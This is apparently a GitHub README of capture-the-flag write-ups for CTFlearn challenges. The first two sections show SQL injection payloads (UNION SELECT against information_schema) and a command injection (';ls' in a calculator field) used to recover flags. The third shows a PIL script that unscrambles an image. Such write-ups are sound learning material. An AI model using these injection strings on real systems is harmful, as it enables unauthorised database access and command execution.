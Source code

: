 # CTFs-Writeups---CTFlearn

## Inj3ction Time <br>
"I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command" <br>

"1 OR 1=1" give us a few results but nothing we are interested in. <br>
Take into account the advice we started to look for the number of colums : "1 UNION SELECT 1,2" ; "1 UNION SELECT 1,2,3" ; "1 UNION SELECT 1,2,3,4" : Bingo <br>
We then try to use "UNION SELECT 1,2,3,4 FROM information_schema.tables" but it doesn't give us any result <br>
We then try : "1 UNION SELECT table_name,2,3,4 FROM information_schema.tables" <br>
Effectively finding the following flag : "w0w_y0u_f0und_m3" <br>
We then swtich our injection to find all colums names : "1 UNION SELECT column_name,2,3,4 FROM information_schema.columns" giving us : "f0und_m3" <br>
We then use the column name and the table name we found with a UNION injection : "1 UNION SELECT f0und_m3,2,3,4 FROM w0w_y0u_f0und_m3" effectively grabbing the full flag : abctf{uni0n_1s_4_gr34t_c0mm4nd} <br>

###### Writed by : Cloclodudu & Asch-sys <br><br><br><br>




## Calculat3 M3 <br>
Here! http://web.ctflearn.com/web7/ I forget how we were doing those calculations, but something tells me it was pretty insecure. <br>

The site display a calculator, by opening the html with f12 we are able to see that the input has a read only tag. We remove it and try to input ;ls to get the names of the files which works and get us the flag : {watch_0ut_f0r_th3_m0ng00s3} <br>

###### Writed by : Cloclodudu & Asch-sys <br><br><br><br>




## Image Magic <br>
It looks like someone messed up my picture! Can anyone reorganize the pixels? The python module PIL (Python Imaging Library) might be useful! https://mega.nz/#!OKxByZyT!vaabCJRG5D9zAUp7drTekcA5pszu67r_TbQMtxEzqGE <br>
Update: I think whoever messed up my image took every column of pixels and put them side by side. Update: I think the width of the image was 304 before they messed with it. <br>

We use this script below : <br>
from PIL import Image as Im; <br>
import numpy as np; <br>
Im.fromarray(np.reshape(np.asarray(Im.open('out copy.jpg')), (304, -1)).T).show() <br>
We finally get this flag :  CTFlearn{cool_right?} <br>

###### Writed by : Cloclodudu & Asch-sys <br><br><br><br>

